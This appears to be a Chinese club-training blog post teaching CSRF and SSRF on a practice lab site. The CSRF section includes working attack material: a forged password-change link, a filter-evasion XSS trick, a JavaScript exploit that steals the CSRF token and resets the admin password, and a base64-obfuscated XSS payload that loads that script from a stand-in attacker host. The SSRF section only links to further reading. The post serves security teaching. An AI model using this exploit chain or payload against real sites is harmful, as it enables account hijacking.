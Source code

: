 ```yaml
---
layout: post
title: "CSRF+SSRF入门(社团培训记录)"
tags: [group]
author: wqpw
---
```


突然想记录下。

## CSRF

```text
CSRF，全名 Cross Site Request Forgery，跨站请求伪造。易与 XSS 混淆，对于 CSRF，其两个关键点是跨站点的请求与请求的伪造。因为用户的敏感操作的每一个参数都可以被攻击者获知，攻击者可以伪造一个完全一样的请求以用户的身份达到恶意目的，即CSRF攻击。
```

![1](/assets/pcs1.png)

这个页面有一个修改管理员密码的功能。

![2](/assets/pcs2.png)

试一下，我们可以得知修改密码的请求是

`http://justforfun.site/vulnerabilities/csrf/?password_new=新密码&password_conf=新密码&Change=Change`

所以如果我们想把管理员的密码变成我们期望的密码，就可以[社工](https://baike.baidu.com/item/%E7%A4%BE%E4%BC%9A%E5%B7%A5%E7%A8%8B%E5%AD%A6/2136830)(社会工程学，动词社工。以前认识一个人关于这个挺有一套的，暂且不表)管理员点击下面的链接(把密码改成hacker)：

`http://justforfun.site/vulnerabilities/csrf/?password_new=hacker&password_conf=hacker&Change=Change`

但是这样太显眼了，管理员~~不一定~~一定不会上当，所以我们需要想办法伪装掩饰一下。

比如这样

![3](/assets/pcs3.png)

只要一打开hacker.site，浏览器就会自动发送修改密码的请求。这样只要骗管理员打开hacker.site就行，成功率有不少提升。

当然，因为只是一个GET请求，所以[方法](https://ctf-wiki.github.io/ctf-wiki/web/csrf/)有很多：

```html
(HTML中能设置src/href等链接地址的标签都可以发起一个GET请求)
<link href="">
<img src="">
<img lowsrc="">
<img dynsrc="">
<meta http-equiv="refresh" content="0; url=">
<iframe src="">
<frame src="">
<script src=""></script>
<bgsound src=""></bgsound>
<embed src=""></bgsound>
<video src=""></video>
<audio src=""></audio>
<a href=""></a>
<table background=""></table>
......
还有CSS样式中的：
@import ""
background:url("")
......
```

下面看一个难一点的：

```php
<?php
if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
        ......下略
```

这段代码里检查了`$_SERVER['SERVER_NAME']`是否在`$_SERVER['HTTP_REFERER']`中出现，然后才会进入修改密码的流程，所以首先我们来康康这两东西是啥。

|||
--|:--:|
`$_SERVER['SERVER_NAME']`|返回当前运行脚本所在的服务器的主机名|
`$_SERVER['HTTP_REFERER']`|链接到当前页面的前一页面的 URL 地址|
|||

所以只要想办法让referer里有`justforfun.site`就可以通过检测了。

除了伪造referer，最简单的方法就是结合同站的XSS。

![4](/assets/pcs4.png)

这里的XSS保护`只过滤了一次<script>`，所以只要类似`<scr<script>ipt>alert(1)</script>`这样就可以弹个框。

不过这里的CSRF还用不上`<script>`，用前面的img标签就行。

![5](/assets/pcs5.png)

然后更难一点

![6](/assets/pcs6.png)

这个会先检测token(令牌)，如果发送的token和系统生成的token不一样就不会改密码，所以我们要想办法取得系统生成的token。而在这里访问一次修改密码的页面就会生成一个token放在html中，所以利用XSS把页面生成的token偷出来就可以进行CSRF攻击了。

下面是CSRF的exp (在hacker.site根目录下，文件名hack.js):

```javascript
/* 相关教程：http://www.w3school.com.cn/ajax/index.asp */
var hack1 = new XMLHttpRequest();
var token = '';
var url = 'http://justforfun.site/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change&user_token=';

hack1.open("GET", "/vulnerabilities/csrf/",true);
hack1.send();
hack1.onreadystatechange=function() {
  //请求发送成功后提取token并修改密码  
  if(hack1.readyState==4 && hack1.status==200) {
      token = hack1.responseText.match(/[0-9a-z]{32}/)[0]; //是一个长为32由0-9a-z组成的字符串
      var hack2 = new XMLHttpRequest();
      hack2.open("GET", url + token, true); //发送修改密码的请求
      hack2.send();
  }
}

```

然后是用于XSS的payload:

```html
<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwOi8vaGFja2VyLnNpdGUvaGFjay5qcyc='))>
```

解密后会执行
`s=createElement('script');body.appendChild(s);s.src='http://hacker.site/hack.js`

即向body内插入一个`<script src='http://hacker.site/hack.js'>`，从而执行`hack.js`中的代码。

效果如下：

![7](/assets/pcs7.png)

那么这里的CSRF入门大概先说到这，当然网上有很多资料。
嗯，现在来看两个例子：

[漏洞科普 对于XSS和CSRF你究竟了解多少](https://www.freebuf.com/articles/web/39234.html)

文中有一些小错误但影响不大。

[绕过Facebook CSRF防护机制实现账户劫持](https://www.freebuf.com/vuls/195814.html)

[“借刀杀人”之CSRF拿下盗图狗后台](https://www.freebuf.com/column/159411.html)

## 然后是SSRF

[来听个课](https://www.bilibili.com/video/av37393329)

[然后看点资料](https://ctf-wiki.github.io/ctf-wiki/web/ssrf/)

单纯的ssrf用处不是很大，一般都会想办法结合其他信息或者漏洞来产生更大的价值。

[谷歌SSRF漏洞解析：利用谷歌应用工具发现谷歌内部DNS信息](https://www.freebuf.com/articles/network/128508.html)

多学习，然后能看懂的漏洞报告、分析就会变多，然后技术自然会上去。

以前印象挺深的一个

[百度某个从SSRF到内网WebShell](http://www.anquan.us/static/bugs/wooyun-2015-099070.html)

结束。
